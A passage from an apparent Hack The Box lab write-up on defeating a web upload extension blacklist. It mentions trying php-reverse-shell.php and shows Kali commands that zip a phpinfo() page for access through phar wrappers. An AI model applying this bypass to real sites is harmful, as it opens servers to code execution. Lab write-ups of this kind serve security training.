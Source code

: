 So looks like any PHP, Python, Perl, PHTML, etc shell we try to load here will be denied. 

We can try something that doesn't appear to be filtered like Ruby, but get an error:

![updown_fail1.png](../assets/updown_assets/updown_fail1.png)

We should probably also confirm the blacklisting is actually active by attempting to upload a forbidden extension:

Trying to upload a copy of php-reverse-shell.php we can see the blacklisting is hooked up and working:

![updown_ext.png](../assets/updown_assets/updown_ext.png)

We also can't try something like shell.PhP because the extension filter is using the `/i` flag making these rules case-insensitive.

Lets attempt to access the phpinfo.php page using phar wrappers.

First I'll create and zip the files I need:

```
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ cat >> info.php 
<?php phpinfo(); ?>
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ zip info.test info.php                 
  adding: info.php (stored 0%)
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ file info.test 
info.test: Zip archive data, at least v1.0 to extract, compression method=store
```

I can now load my info.test file and see it was uploaded to `/uploads`
